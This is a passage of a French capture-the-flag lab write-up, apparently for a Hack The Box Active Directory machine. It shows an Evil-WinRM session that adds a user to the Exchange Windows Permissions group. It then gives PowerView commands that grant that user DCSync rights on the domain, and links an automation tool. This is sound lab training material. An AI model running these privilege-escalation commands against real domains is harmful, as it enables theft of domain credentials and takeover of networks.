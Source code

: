 ```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" bloman /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user bloman
User name                    bloman
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/23/2024 7:30:26 PM
Password expires             Never
Password changeable          2/24/2024 7:30:26 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Exchange Windows Perm*Domain Users
The command completed successfully.
```
Il es bien maintenant dans le groupe qu'on lui a mis
Maintenant je vais faire une attaque `DCSync`
 - https://support.bloodhoundenterprise.io/hc/en-us/articles/17322220586779-CanPSRemote
```
$pass = convertto-securestring 'Password1' -AsPlainText -Force $cred = New-Object System.Management.Automation.PSCredential('htb\bloman', $pass) 
Add-DomainGroupMember -Identity 'Backup_Admins' -Members bloman -Credential $cred

Get-DomainGroup -MemberIdentity bloman | select samaccountname
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bloman -Rights DCSync
```



Oubien aussi y'a un outil qui peux automatiser cela
- https://github.com/fox-it/aclpwn.py